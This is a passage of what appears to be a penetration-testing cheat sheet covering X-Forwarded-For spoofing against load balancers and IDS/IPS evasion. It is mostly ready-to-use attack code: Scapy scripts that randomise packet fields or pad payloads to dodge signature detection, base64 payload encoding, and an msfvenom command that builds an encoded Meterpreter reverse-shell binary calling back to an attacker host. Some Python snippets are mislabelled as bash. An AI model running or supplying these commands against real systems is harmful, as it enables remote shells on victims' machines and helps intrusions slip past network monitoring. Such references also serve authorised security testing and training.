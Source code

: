 #### Load Balancer Misconfigurations
Exploit load balancers that forward traffic based on rules. Attempt to target internal services by abusing load balancing headers such as `X-Forwarded-For`.
- **Custom packet crafting with `curl`:**
	```bash
	curl -H "X-Forwarded-For: 127.0.0.1" http://<load_balancer_ip>
	```

# IDS/IPS Evasion

#### Evasion via Polymorphic Techniques
Crafting custom packets can help evade IDS/IPS detection by altering standard packet fields.
- **Scapy Packet Crafting:** Craft custom packets to evade signature-based detection.
    ```python
    from scapy.all import *
    packet = IP(dst="192.168.1.20")/TCP(dport=80, flags="S")
    send(packet)
    ```
- **Scapy Packet Crafting to Obfuscate Traffic with Random Encodings:**
	```bash
	from scapy.all import *
	packet = IP(dst="<target_ip>")/TCP(dport=80)/Raw(load=b"\x90" * 10 + b"GET / HTTP/1.1\r\nHost: <target_ip>\r\n\r\n")
	send(packet)
	```
- **Scapy example to randomize TTL and IP ID:** Randomize packet fields (TTL, IP ID, Sequence Numbers) to make traffic appear different with each execution. This makes it harder for network monitoring systems to match traffic patterns and signatures.
	```bash
	from scapy.all import *
	for i in range(10):
	    packet = IP(dst="192.168.1.20", ttl=RandByte(), id=RandShort())/TCP(dport=80, flags="S")
	    send(packet)
	```
- **Metasploit Encoder:** Use encoders to obfuscate payloads and avoid IDS/IPS detection. Encoders like `shikata_ga_nai` can be used to evade IDS/IPS by obfuscating the payload.
	```bash
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -e x86/shikata_ga_nai -f elf > shell.elf
	```

#### Signature-Based Detection Evasion
- **Modify Payloads:** Use payload encoding or modify common attack signatures to evade signature-based detection.
	```bash
	echo -n 'payload' | base64
	```
- **Obfuscate Packet Payloads with `Scapy`:**
	```bash
	from scapy.all import *
	packet = IP(dst="<target_ip>")/TCP(dport=80)/Raw(load="GET / HTTP/1.1\r\nHost: <target_ip>\r\n\r\n")
	send(packet)
	```
- **Split Attack Chains:** Break up attack steps to avoid detection by IDS/IPS. Instead of executing a full attack script in one go, break it into multiple commands that are executed over time, making it harder for the IDS to recognize patterns.
